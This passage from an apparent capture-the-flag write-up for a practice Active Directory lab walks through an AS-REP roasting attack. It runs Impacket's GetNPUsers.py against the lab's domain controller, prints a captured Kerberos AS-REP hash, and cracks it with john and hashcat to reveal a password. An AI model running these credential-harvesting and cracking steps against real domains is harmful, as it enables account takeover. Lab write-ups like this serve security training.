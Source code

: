 Since we have list of valid usernames, we can perform the "**ASREPRoasting" attack.**

{% hint style="success" %}
**ASReproasting** occurs when a user account has the privilege **“**<mark style="color:orange;">**Does not require Pre-Authentication**</mark>**”** set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

We can retrieve Kerberos tickets using a tool called “**GetNPUsers.py**” in [Impacket](https://github.com/SecureAuthCorp/impacket). This allows us to query ASREProastable accounts from the Key Distribution Center. The only thing that’s necessary to query accounts is a valid set of usernames, which we enumerated previously during our SMB enumeration.
{% endhint %}

We save those valid usernames into a list "users.txt".

{% code overflow="wrap" lineNumbers="true" fullWidth="true" %}
```bash
GetNPUsers.py vulnnet-rst.local/ -usersfile users.txt -no-pass -dc-ip 10.10.27.191 -outputfile kerberos_users.txt

# results.
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User WIN-2BO8M1OE1M1$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:c856d8d6b0ae2a8222e4e65fe7a50ff4$0b6c47183820baa125094946ca444685b8a7eaf90cd2ac8d25c164767cf83e301781132223d288de1a6ba9f188bb6aa30755dcbf8a1c5b68319fbb3595efa0695d7eef3c3fbb06efe2afe82897bfdde137e4a6fbb23670a82876f61be26327d82b6f49015742f77751df2432844fe1274de259ceeebdcc632a4e6d6bff4a5543e2cf9fe3ffcfc84f3a7e99ec1ae337ba1886e2aa77c29754aa3f44019bdf9aa77f98967504ea1233ec100d2d5f42ab0a30f246de2f9fb8caa932e40aed78f7b9a14b4f6cfb37f02cc157d55e3dcd719b9aa35674ea5f48ab32a4196700974e6f61f9ab5ddc1131413cf6ab7e69d6f4328e20ece32adc
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set

```
{% endcode %}

The user `t-skid` had no preauthentication enabled and thus we got an ASREP for the user `t-skid`. This ASREP includes the TGT and a part which contains the session key for the communication between the user and the TGS.&#x20;

Cracking the hash.

{% code overflow="wrap" lineNumbers="true" %}
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

# results.
tj072889*        ($krb5asrep$23$t-skid@VULNNET-RST.LOCAL) 

# using hashcat.
hashcat -a 0 -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```
{% endcode %}

